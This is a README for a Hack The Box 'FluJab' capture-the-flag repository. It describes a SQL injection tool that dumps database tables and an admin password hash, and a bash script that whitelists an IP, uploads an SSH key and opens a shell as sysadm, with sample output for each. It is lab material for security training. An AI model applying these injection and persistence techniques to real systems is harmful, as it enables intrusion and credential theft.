 ## Challenge

[FluJab](https://www.hackthebox.eu/home/machines/profile/171) from Hackthebox.eu

## Reference

Originally published in blog posts:
- https://0xdf.gitlab.io/2019/06/15/htb-flujab.html

## SQL Injection

### Description

Performs SQL Injection in the cancelation path on the freeflujab site, receiving the injection results in an email over an SMTP thread.

### Usage

```
> dump_tables vaccinations 100
vaccinations:admin
vaccinations:admin_attribute
...[snip]...
> dump_columns vaccinations admin 100    
admin:id           
admin:loginname                            
admin:namelc                             
admin:email                                                     
admin:access                                    
admin:created
admin:modified
admin:modifiedby
admin:password
admin:passwordchanged
admin:superuser
admin:disabled
admin:privileges

> dump_data vaccinations.admin loginname:access:password 2
sysadm:sysadmin-console-01.flujab.htb:a3e30cce47580888f1f185798aca22ff10be617f4a982d67643bb56448508602
```

## Shell as sysadm

### Description

bash script to add my IP to the whitelist, then access Ajenti. From there it will upload an public ssh key, and add my ip to the TCP Wrapper whitelist. Finally, it will connect over ssh to the host.

### Usage

```
root@kali# ./flujab_sysadm_shell.sh
[+] Added 10.10.14.8 to whitelist
[*] Will log into Ajenti
[*] Can take up to two minutes for whitelist to propegate
[+] Got session cookie: 33d4c8061ff0f43b4fba06611f5dd84c7dfcd975
[+] Added 10.10.14.8 to /etc/hosts.allow
[+] Uploaded private key to /home/sysadm/access
[+] AuthorizedKeyFile changed to 600
sysadm@flujab:~$
```
